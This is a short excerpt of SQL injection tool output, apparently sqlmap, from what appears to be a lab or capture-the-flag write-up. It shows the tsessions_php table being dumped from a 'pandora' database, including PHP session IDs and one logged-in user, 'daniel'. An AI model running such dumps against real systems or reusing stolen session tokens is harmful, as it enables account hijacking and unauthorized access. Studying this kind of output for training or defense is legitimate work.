 ```
[14:39:02] [INFO] resumed: 'pandora@localhost'
current user: 'pandora@localhost'
[14:39:02] [INFO] fetching columns for table 'tsessions_php' in database 'pandora'
[14:39:02] [INFO] starting 3 threads
[14:39:02] [INFO] resumed: 'id_session'
[14:39:02] [INFO] resumed: 'char(52)'
[14:39:02] [INFO] resumed: 'last_active'
[14:39:02] [INFO] resumed: 'int(11)'
[14:39:02] [INFO] resumed: 'data'
[14:39:02] [INFO] resumed: 'text'
[14:39:02] [INFO] fetching entries for table 'tsessions_php' in database 'pandora'
[14:39:02] [INFO] starting 10 threads
Database: pandora
Table: tsessions_php
[325 entries]
+----------------------------+---------------------------------------------------------------------------------+-------------+
| id_session                 | data                                                                            | last_active |
+----------------------------+---------------------------------------------------------------------------------+-------------+
[14:39:22] [WARNING] console output will be trimmed to last 256 rows due to large table size
| 6acnb63gvubphklhsvdgj5v2c6 | NULL                                                                            | 1652897898  |
| 6fhfaojpg2i954hlvtte8a15v2 | NULL                                                                            | 1652897956  |
| 6iaghcbgnkjru2v8c97ltkf5im | NULL                                                                            | 1652897224  |
| 6jm5rmh2o5nljoe9mooucbtvma | NULL                                                                            | 1652897544  |
| 6msjk6l6qhgmgf1omdc5pdc8ph | id_usuario|s:6:"daniel";                                                        | 1652897967  |
| 6rdsvpjc3fkreha4o7c2h6gjpk | NULL                                                                            | 1652897951  |
| 6tqti16aoi6os7v7o71glfbdhk | NULL                                                                            | 1652897419  |
| 74vkgdmvpe7ugl5lo2llhvhuom | NULL                                                                            | 1652898050  |
| 76e3p0hm73p6ecpaqi3gssc7p4 | NULL                                                                            | 1652897203  |
| 7ckirm3n829h8a562r3k77m54o | NULL                                                                            | 1652897229  |
| 7do0jogoi36cidbp3l637a4gu3 | NULL                                                                            | 1652897899  |
| 7klugaedlm92nit54j3fju5jfn | NULL                                                                            | 1652897515  |
| 7ld6bmibipr8slb4g8e9qbho1m | NULL                                                                            | 1652897386  |
....[SNIP]......
```
